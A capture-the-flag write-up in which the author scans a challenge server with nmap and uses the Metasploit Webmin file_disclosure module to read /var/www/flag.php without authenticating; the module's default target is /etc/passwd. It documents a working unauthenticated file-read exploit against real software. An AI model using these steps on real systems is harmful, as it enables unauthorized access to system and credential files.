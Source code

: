 Webmin - Exploit 2
========================
## Challenge:

> **Description:** This challenge had us connecting to a server where the following information was shown. A flag.php file and a webmin folder containing a config file.
>
> **Goal:** Find the flag for 2000 Points.

## Solution:

Solving this problem was pretty fun. Though the taunt of having flag.php right in front of me was painful. First off I began by looking through the provided files. It was no surprise that flag.php wasn't going to contain the viewable flag. So, onto the next file, webmin. This folder contained a basic webmin config file that provided no real useful information either. So what do. I know that there is a flag.php file somewhere on the server that most likely contains the flag, and that the server is running webmin.

Armed only with that information I figured something else had to be on the server. Bring in good old nmap.
```
nmap -Pn 54.221.X.X

Port      State Service
22/tcp    open  ssh
443/tcp   open  https
10000/tcp open  snet-sensor-mgmt
```

Wooh! Whats that!? snet-sensor-mgmt running on port 10000? Interesting. After giving that a go I found myself at a webmin login page. I started broswing the googles for any default accounts or passwords but I soon found there were none. Better yet the server implemented a timeout mechanism to stop brute forcing. Huh, what now?

Well. There _has_ to be another way. Are there any exploits for webmin?? Ah lookie [here](http://www.rapid7.com/db/modules/auxiliary/admin/webmin/file_disclosure), this looks interesting. Now given our knowledge of flag.php, our best bet is that it resides in /var/www/. So lets fire it up.
```
msf auxiliary(file_disclosure) > use auxiliary/admin/webmin/file_disclosure
msf auxiliary(file_disclosure) > show options

Module options (auxiliary/admin/webmin/file_disclosure):

Name     Current Setting    Required  Description
----     ---------------    --------  -----------
DIR      /unauthenticated   yes       Webmin directory path
Proxies                     no        Use a proxy chain
RHOST    54.221.*.*         yes       The target address
RPATH    /etc/passwd        yes       The file to download
RPORT    10000              yes       The target port
VHOST                       no        HTTP server virtual host

set RPATH /var/www/flag.php
```

Boom! We have a flag!

**NCL-OSSL-1337**
